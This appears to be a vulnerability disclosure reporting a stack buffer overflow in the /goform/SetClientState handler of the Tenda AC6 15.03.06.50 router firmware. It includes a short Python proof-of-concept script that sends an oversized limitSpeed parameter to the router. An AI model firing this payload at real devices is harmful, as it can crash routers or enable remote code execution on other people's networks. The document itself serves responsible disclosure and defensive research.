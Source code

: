 # Bug Report: Buffer Overflow in Tenda AC6 15.03.06.50 Router
A buffer overflow vulnerability has been identified in the Tenda AC6 15.03.06.50 router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: Tenda AC6 Wireless Router
- **Affected Version**: 15.03.06.50
- **Download Source**: https://www.tendacn.com/material/show/103316
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
A buffer overflow vulnerability exists in the HTTP request handler for the `/goform/SetClientState` endpoint. The vulnerability is triggered when processing requests containing the following parameters with excessive data lengths: `limitSpeed`/`deviceId`/`limitSpeedUp`.

![alt text](image-2.png)
## poc
![alt text](image.png)
![alt text](image-1.png)


## Reproduce
```python
#!/usr/bin/env python3
from pwn import *
import requests

def send_payload(url, payload):
    print("sending...")
    response = requests.get(url, params={'limitSpeed': payload, 'limitEn': "1"})
    print(f"Response status code: {response.status_code}\nResponse body: {response.text}")

payload = 0x200 * b'1'
payload += b'DOIT' 
send_payload("http://10.10.10.1/goform/SetClientState", payload)
```